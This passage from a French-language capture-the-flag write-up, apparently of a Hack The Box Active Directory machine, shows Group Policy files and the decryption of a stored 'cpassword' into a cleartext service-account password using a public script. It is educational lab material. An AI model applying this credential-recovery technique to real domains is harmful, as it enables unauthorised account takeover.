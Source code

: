 ```plain
./Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI: ASCII text, with CRLF line terminators
```

Le fichier template GPT ne nous est pas super utile mais donne des indications sur la dureté des mots de passe et leur absence de stockage au format LM :  

```plain
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 1
MaximumPasswordAge = 42
MinimumPasswordLength = 7
PasswordComplexity = 1
PasswordHistorySize = 24
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
[Version]
signature="$CHICAGO$"
Revision=1
```

Le fichier *Groups.xml* semble plus utile, avec un mot de passe qui semble encodé à l'intérieur :  

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

En cherchant sur le web je finis par trouver exactement ce que je veux, à savoir [un script Python pour déchiffrer ce pass](https://github.com/leonteale/pentestpackage/blob/master/Gpprefdecrypt.py) :  

```plain
$ python Gpprefdecrypt.py edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```
